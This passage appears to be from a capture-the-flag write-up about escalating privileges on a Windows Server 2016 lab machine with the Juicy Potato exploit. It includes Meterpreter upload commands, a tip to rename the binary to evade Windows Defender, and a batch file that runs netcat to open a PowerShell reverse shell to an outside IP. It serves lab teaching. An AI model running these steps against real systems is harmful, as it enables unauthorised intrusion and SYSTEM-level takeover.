 # Privilege Escalation

Running the `sysinfo` command on the meterpreter session, we notice that this is a Windows Server 2016 OS, which is vulnerable to the [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) exploit.

~~~
meterpreter > sysinfo 
Computer    : SHIELD
OS          : Windows NT SHIELD 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows
~~~

## Juicy Potato

Juicy Potato is a variant of the exploit that allows service accounts on Windows to escalate to SYSTEM (highest privileges) by leveraging the BITS and the `SeAssignPrimaryToken` or `SeImpersonate privilege` in a MiTM attack.

We can exploit this by uploading the Juicy Potato [binary](https://github.com/ohpe/juicy-potato) and executing it.

First, we need to compile juicy-potato. Either do it yourself, or download it from my [github](files/JuicyPotato.exe).

As before, we can use our meterpreter shell to do the upload and then we can use the netcat shell to execute the exploit.

~~~
meterpreter > lcd /home/username/Downloads
meterpreter > upload JuicyPotato.exe
[*] uploading  : JuicyPotato.exe -> JuicyPotato.exe
[*] Uploaded -1.00 B of 3.76 MiB (0.0%): JuicyPotato.exe -> JuicyPotato.exe
[*] uploaded   : JuicyPotato.exe -> JuicyPotato.exe
~~~

**Note**: We will have to rename the Juicy Potato executable to something else, otherwise it will be picked up by Windows Defender.

~~~
meterpreter > mv JuicyPotato.exe js.exe
~~~

We can create a batch file that will be executed by the exploit, and return a SYSTEM shell. Let's add the following contents to `shell.bat` (run it from the first reverse shell running on port 1234, and replace the IP with yours):

~~~
C:\inetpub\wwwroot\wordpress\wp-content\uploads> echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.195 1111 > shell.bat
~~~

Let's start another netcat listener:

~~~
$ rlwrap nc -nlvp 1111
~~~
